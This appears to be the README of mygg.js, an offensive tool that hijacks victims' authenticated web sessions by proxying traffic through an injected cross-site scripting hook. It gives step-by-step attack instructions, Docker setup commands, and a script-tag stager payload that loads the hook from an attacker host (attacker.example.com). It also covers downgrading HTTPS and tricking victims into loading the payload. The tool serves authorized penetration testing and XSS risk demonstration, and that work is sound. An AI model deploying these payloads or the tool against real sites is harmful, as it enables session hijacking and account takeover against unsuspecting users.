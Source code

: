 # mygg.js

mygg.js (Norwegian for mosquito) is a tool designed to hijack a victim's session by proxying web traffic through cross-site scripting. It allows an attacker to browse as though they were authenticated by the victim's browser. This is useful when you can't steal session cookies directly, but can still perform actions within the victim's session. By leveraging session riding, authentication tokens are automatically appended to each request, effectively acting as a man-in-the-middle. Inspired by tools like Mosquito, MalaRIA, and BeEF, mygg.js simplifies the process of session hijacking through XSS vulnerabilities.

<img src="https://github.com/dsolstad/mygg.js/blob/master/diagram.png" alt="drawing" width="698" height="320"/>

### How it works

1. **Set up the Server**: Ensure you have a server with a domain name pointing to it. This server will host the mygg.js application.
2. **Clone the Project**: Clone the mygg.js repository on your server. (Refer to the [Installation](#installation) section)
3. **Follow Installation Process**: Follow the steps in the [Installation](#installation) section to build and run the Docker container.
4. **Configure the Attacker's Browser**: Open a browser and set the proxy to `http://attacker.example.com:8081`.
5. **Generate Payloads**: Run the mygg.js application, which will print various payloads in the console. These payloads can be used for different XSS vectors.
6. **Inject Payload**: Inject one of the payloads into the XSS injection point on the target website and trick the victim into loading it.
7. **Victim Gets Hooked**: Once the victim loads the payload, their browser will be hooked.
8. **Monitor and Interact**: The attacker must browse to the target website through the proxy. Once the victim is hooked, the attacker can interact with the target website as though they are authenticated as the victim.

## Prerequisites

- Attacker server with Docker installed
- A domain that points to the attacker server
- The attacker's browser configured to use the proxy at `http://attacker.example.com:8081`

## Limitations
- **Same-Origin Policy:** `mygg.js` is primarily restricted to the domain where the hook was loaded. This means that you can only browse and interact with the site where the XSS payload was injected.
- **CORS Misconfigurations:** Some sites may have misconfigured Cross-Origin Resource Sharing (CORS) headers, like an open `access-control-allow-origin` header. These misconfigurations can allow cross-origin requests, potentially expanding what `mygg.js` can access.

## Installation

### 1. **Clone the Project:**

```bash
git clone https://github.com/root4loot/mygg.js.git
cd mygg.js
```

### 2. Run the Container:
```
docker build -t mygg .
docker run -d --name mygg -p 8443:8443 -e DOMAIN=attacker.example.com mygg
```
Replace **attacker.example.com** with your actual domain name.

## Configuration

The Docker container will automatically generate a Let's Encrypt certificate for the specified domain and renew it as needed. No manual certificate management is required.

## Payload Stager
When mygg.js is started, it will output various XSS payloads you may inject. Example payload:

```html
<script>
  var x=document.createElement('script');
  x.src='//attacker.example.com:8443/mygg.js';
  document.head.appendChild(x);
</script>
```

## Ports

- **Port 8443** - Used for serving the hook, polling, and receiving responses over HTTPS.
- **Port 8081** - The proxy where you should configure your attacking web browser to proxy through, to forward communication to the hooked browser.


## Notes

- When configuring attacker browser to use the proxy on port 8081, make sure to use `http://` instead of `https://`.
- If the browser forces HTTPS, then make sure to clear the HSTS cache first.


# TODOs
- Consider implementing the use of WebSockets instead of HTTP polling.
- Consider implementing HTTPS interception instead of HTTPS downgrading.

# FAQ
**Q:** Why not use the other tools instead?  
**A:** Mosquito and MalaRIA are old and do not support HTTPS. BeEF is barely maintained and its XSS proxy is full of bugs.

# Disclaimer 
This software is only meant to be used for the purposes of creating proof-of-concepts during security assessments, to better demonstrate the risks of Cross-site Scripting, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.
  
This software is a personal project and not related with any companies, including Project owner and contributors employers.

# LICENSE
See [LICENSE](LICENSE)